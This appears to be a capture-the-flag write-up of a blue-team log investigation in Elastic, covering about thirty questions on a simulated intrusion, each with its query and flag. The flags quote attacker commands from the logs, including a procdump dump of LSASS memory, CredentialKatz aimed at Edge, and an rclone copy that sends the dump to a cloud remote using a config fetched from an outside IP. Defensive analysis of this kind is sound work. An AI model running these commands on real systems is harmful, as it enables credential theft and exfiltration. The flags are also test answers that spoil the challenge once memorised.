# Exfil

## Exfil_01
> What is the file.path of the output file generated by the winPEAS.ps1 script?

Searching for `winPEAS.ps1` with filter still on `host.name:officewin9` we will find the `process.command_line` that was executed by `cmd.exe` from the parent `UpdaterCore.exe`:

> Flag: `C:\Users\Public\peasout.txt`

## Exfil_02
> What is the process.command_line of the command run by attacker to read the content of the file?

For this we leveraged the `Field statistics` tab from main panel where you can do statistics on the Field from logs, meaning you can take a look at unique values a field has. So first we searched all messages that have `"C:\Users\Public\peasout.txt"` in them. Then we added `process.command_line` field as one of the highlighted fields and clicked on Field statistics instead of looking at the actual messages. Then we just looked at the fields and tried those that have `Get-Content` and it proved that `/c powershell -Command "Get-Content 'C:\Users\Public\peasout.txt'"` was the correct one.

> Flag: `/c powershell -Command "Get-Content 'C:\Users\Public\peasout.txt'"`

## Exfil_03
> What is the process.parent.name of the command to read the peasout.txt file?

For this, we just enabled filter on the `process.command_line:/c powershell -Command "Get-Content 'C:\Users\Public\peasout.txt'"` we identified in previous task and looked at the `process.parent.name` field:

> Flag:`UpdaterCore.exe`

## Exfil_04
> Adversary lost connection via UpdaterCore.exe, so he downloaded and executed it again. What is the process.pid of the new instance of UpdaterCore.exe?

If we search for `process.name:"UpdaterCore.exe"` with filter on `host.name:officewin9` we will see logs arround `17:47:41` where the process UpdaterCore.exe gets new pid.

However pid `1671` was not accepted as answer and we tried the parent pid `1120` which was accepted. Later in discord it was announced by the moderators that the question should state the `process.parent.pid`

> Flag:`1120`

## Exfil_05
> Adversary downloaded also another file from his arsenal. What is the url of the file downloaded right after UpdaterCore.exe?

We tried searching for any process.command_line that contained `Invoke-WebRequest` or `iwr` as that would indicate downloading something from command line. We used following search: `process.command_line.text : "*Invoke-WebRequest*" OR process.command_line.text:"*iwr*"` but that returned lot of logs so we need to filter out known downloads like `UpdaterCore.exe`, `revshell.txt` and finally `winPEAS.ps1`. Our final search was this monster: `(process.command_line.text : "*Invoke-WebRequest*" OR process.command_line.text:"*iwr*" ) and not (process.command_line.text:"UpdaterCore.exe" or process.command_line.text:"revshell.txt" or process.command_line.text:"winPEAS.ps1")` but it was successful and first log on the list contained what we needed:

> Flag:`http://72.21.192.5/UpdateCheck.exe`

## Exfil_06
> Where was the file downloaded (file.path)?

Easily from the previous task we know it was downloaded to `C:\Users\Public\UpdateCheck.exe`.

> Flag:`C:\Users\Public\UpdateCheck.exe`

## Exfil_07
> What is the process.hash.sha1 of the downloaded file?

We searched for `process.name:UpdateCheck.exe` and look for the info in column `process.hash.sha1`.

> Flag:`f0026c3167572ef3ff281ea75184d7635f66189f`

## Exfil_08
> What is the compilation timestamp of the file? Format: YYYY-MM-DD HH:mm:ss UTC

Going to VirusTotal and searching for `f0026c3167572ef3ff281ea75184d7635f66189f` reveals the answer:

> Flag:`2025-01-16 12:31:33 UTC`

## Exfil_09
> What vulnerability is this file trying to abuse? Format: CVE-yyyy-xxxxx

Information is in VirusTotal page right under the `Detection` tab, referenced in the tags and by many vendors:

> Flag:`CVE-2024-30088`

## Exfil_10
> What is the NAME of MITRE ATT&CK Tactic the adversary is trying to use?

Googling [`CVE-2024-30088`](https://nvd.nist.gov/vuln/detail/cve-2024-30088) we learn that this is a Windows Kernel Elevation of Privilege Vulnerability which maps to MITRE [Privilege Escalation](https://attack.mitre.org/tactics/TA0004/).

> Flag:`Privilege Escalation`

## Exfil_11
> When UpdateCheck.exe was executed, it has done some privilege escalation magic and started our C2 agent with system privileges. Firewall detected suspicious C2 traffic and generated alert. What was the panw.panos.threat.name?

We switched data source to `filebeat-*` and searched for `panw.panos.threat.name: *`, with filter for `client.ip:192.168.12.119` narrowed timeframe from `17:40` to `17:45` when the activity is expected to happen, then checked the Field statistics to see what alerts are most occurring and the havoc one looked interesting and it was correct answer.

> Flag:`Havoc Framework Command and Control Traffic Detection`

## Exfil_12
> But there was still something missing for adversary to be able to move lateraly. So he downloaded another 3 tools from the same url as before. What are the file names of these three files? Answer in CSV format, in order in which they were downloaded, start with the first one. Example: file1.tmp,file2.bmp,file3.hmp

We go back to [Exfil_05](#exfil_05) and use the same search with adding `UpdateCheck.exe` to the exclusion list and just note other filed downloaded in chronological order.

> Flag:`pd.exe,Updatepd.exe,CredentialKatz.exe`

## Exfil_13
> What was the file.directory where these files were downloaded?

From logs from previous search, we see that all were downloaded to `C:\Users\Public`.

> Flag:`C:\Users\Public`

## Exfil_14
> Which of the three was executed first?

By searching for `process.name:"pd.exe" or process.name:"Updatepd.exe" or process.name:"CredentialKatz.exe" ` we see that first was executed `Updatepd.exe`:



> Flag:`Updatepd.exe`

## Exfil_15
> What is the process.hash.sha256 of the Updatepd.exe?

From previous search, we add `process.hash.sha256` field to the results:

> Flag:`832e55a3d3fc93cb65dc2047e34e3a4b81387b5a88b1bac263eb7d9cb685fbd1`

## Exfil_16
> This one again looks like priviledge escalation tool, which after some black magic runs another of the downloaded tools - pd.exe - with SYSTEM privileges. What is the full process.command_line to dump memory of the lsass process to file?

First we tried looking for all processes that could have `parent.process.name:Updatepd.exe` or `parent.process.pid` matching Updatepd.exe pid, however we did not find anything.
Next we searched just for `Updatepd.exe` and looked at the last event details that had record for this process name around the time stamp `17:58`:



Then we clicked on `View surrounding documents`:



Which opened following view of surrounding logs. Re-enabling filter for hostname, noticed several logs containing lsass.exe which indicates actions with memory dump.



After checking the log details to confirm it was executed under SYSTEM privileges, we tried to submit the process.command_line and got accepted answer.

> Flag:`C:\Windows\system32\cmd.exe /C C:\Users\Public\pd.exe -accepteula -ma lsass.exe C:\Users\Public\UpdatepdCrash.dmp`

## Exfil_17
> What is the process.hash.sha256 of the pd.exe?

From previous screenshot we look at `pd.exe` with `process.pid:32948` and submit the `process.hash.sha256`

> Flag:`e4ea34a7c2b51982a6c42c6367119f34bec9aeb9a60937836540035583a5b3bc`

## Exfil_18
> What is the process.pe.original_file_name of the pd.exe?

We open the log details from previous search and look for `process.pe.original_file_name`:



> Flag:`procdump`

## Exfil_19
> What is the file.name of the memory dump?

From third screenshot in [Exfil_16](#exfil_16) we see that memory dump was saved to `C:\Users\Public\UpdatepdCrash.dmp`.

> Flag:`UpdatepdCrash.dmp`

## Exfil_20
> Third tool in a row was the tool named CredentialKatz. What was the process.hash.sha256 of this process?

We search for `CredentialKatz.exe` and look for `process.hash.sha256` info:



> Flag:`0753bb2da4e4def8d6be40297dbc68972106829c52217bd9908059f1a1736e01`

## Exfil_21
> Which parameter of the command line is used to specify browser to target?

Looking at the `process.command_line` field from previous task, we see full command line was `"C:\Users\Public\CredentialKatz.exe" /edge`:



> Flag:`/edge`

## Exfil_22
> What is the url of github repository hosting CredentialKatz?

Googling `CredentialKatz` we found GitHub repository.

> Flag:`https://github.com/Meckazin/ChromeKatz`

## Exfil_23
> Based on the description of the repository, we can expect passwords saved in the Edge browser are now in the adversary's hands. But let's get back to the lsass dump. What is the name of the tool used by adversary to exfiltrate it?

We searched for `UpdatepdCrash.dmp` and looked for logs that try to copy the file, found `rclone`:



> Flag:`rclone`

## Exfil_24
> What was the command used to download rclone and save it on disk?

We tried just searching for `rclone` and lot of logs were returned that had the `process.command_line` that had reference to `revshell.txt` and no much of info in other fields were displaying:



We figured that this means `rclone` was executed from the reverse shell and that command details are in some other field, so we looked at log details of the oldest log and noticed that `powershell.file.script_block_text` contains what we were looking for:



> Flag:`curl https://downloads.rclone.org/v1.69.0/rclone-v1.69.0-windows-amd64.zip -o C:\Users\Public\rclone.zip`

## Exfil_25
> What is the url from which custom rclone configuration file was downloaded?

From previous taks, we know that `powershell.file.script_block_text` contains info we need, so we filtered `powershell.file.script_block_text:exists` and looked at the Field statistics to see unique commands executed and noticed the custom configuration one:



> Flag:`http://72.21.196.174/rclone.conf`

## Exfil_26
> What was the command used by adversary to exfiltrate lsass dump?

From previous screenshot we see the answer.

> Flag:`"C:\Users\Public\rclone-v1.69.0-windows-amd64\rclone.exe" copy " C:\Users\Public\UpdatepdCrash.dmp" mega_cloud:/backup --config C:\Users\Public\rclone-v1.69.0-windows-amd64\rclone.conf --log-level ERROR`

## Exfil_27
> Let's investigate some other adversary's activities. Our security admin identified some traffic to IP address located in Iran. What was the IP address he's seen?

We switched data view to `filebeat-*` and search for `destination.geo.country_name : "Iran"`. Only singe destination IP was found:



> Flag:`2.176.0.9`

## Exfil_28
> What is the IP subnet it belongs to?

Search the `2.176.0.9` in VirusTotal it will show the subnet:



> Flag:`2.176.0.0/15`

## Exfil_29
> What is the process.pid of the process communicating with this IP?

We switched data view back to `winlogbeat-*` and search for `destination.ip : 2.176.0.9`



> Flag:`35712`

## Exfil_30
> What is the file.path of the file downloaded from this IP?

Searched for `process.pid: 35712`:



> Flag:`C:\Users\Public\gimmedat.bat`

## Exfil_31
> Batch script was used to exfiltrate documents with interesting names. What was the file.name of the first exfiltrated document?

Searching for `gimmedat.bat` and looking at the logs, we see that first document was:



> Flag:`Approval and Funding of a Research Project.docx`

## Exfil_32
> How many unique documents were exfiltrated?

From previous task that searched for `gimmdat.bat`, added filter for `process.name: curl`, then checked under Field statistics for distinct values of `process.command_line.text`



> Flag:`10`
